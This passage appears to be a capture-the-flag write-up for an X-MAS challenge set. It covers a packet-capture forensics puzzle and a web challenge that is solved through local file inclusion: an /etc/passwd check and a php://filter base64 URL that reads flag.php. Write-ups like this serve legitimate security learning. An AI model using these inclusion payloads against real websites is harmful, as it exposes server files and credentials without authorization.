   * ```X-MAS{well....who_is_it?}```

### Forenscis
#### Super Secret Communications
* Description
  > Okay, the note's right here. Hold on... uh... Okay.
  >
  >> You'll never discover our secrets! Our method is so secure you'll never get in! We've even given you a full packet capture of everything we sent! Do your worst, ELVES!
  >
  > Yeah, we don't know either. Just try to find the secret message.
  * [captured.pcap](Forenscis/captured.pcap)
* Solution
  * Most of the packet is not in plaintext
  * The secret messages hide in the packets and they all have pattern ```Your hint is "SECRET" >> SECRET```<br>
    ![](Forenscis/Super%20Secret%20Communications/flag.png)
  * Concatenate all the secrets to get the flag
* Flag
  * ```X-MAS{y0u_cr4CK4d_thE_c0d3!_afa03819def2f}```

### Web Exploitation
#### P.A.I.N.T.: Professional Arctic Interactive NT drawing service
* Description
  > Ah, a painting service! What a relaxing way to spend Christmas. Let's see what "oeuvres d'art" people come up with. Play nice, or you will end up on the naughty list!
  * ```http://challs.xmas.htsp.ro:6004/?page=game.php```
* Solution
  * ```http://challs.xmas.htsp.ro:6004/robots.txt``` can leak some information about website's hidden path
    ```html
    User-agent: Googlebot
    Disallow: /flag.php
    Disallow: /api.php

    User-agent: *
    Allow: /
    ```
    * Find flag.php
  * The URL seems to have LFI vulnerability due to the ```?page=``` pattern<br>
    ![](Web/Professional%20Arctic%20Interactive%20NT%20drawing%20service/LFI.png)
    * Verify by ```/etc/passwd```
  * Use php filter protocol to get the ```flag.php``` file in base64 encoding
    * ```http://challs.xmas.htsp.ro:6004/?page=php://filter/convert.base64-encode/resource=flag.php```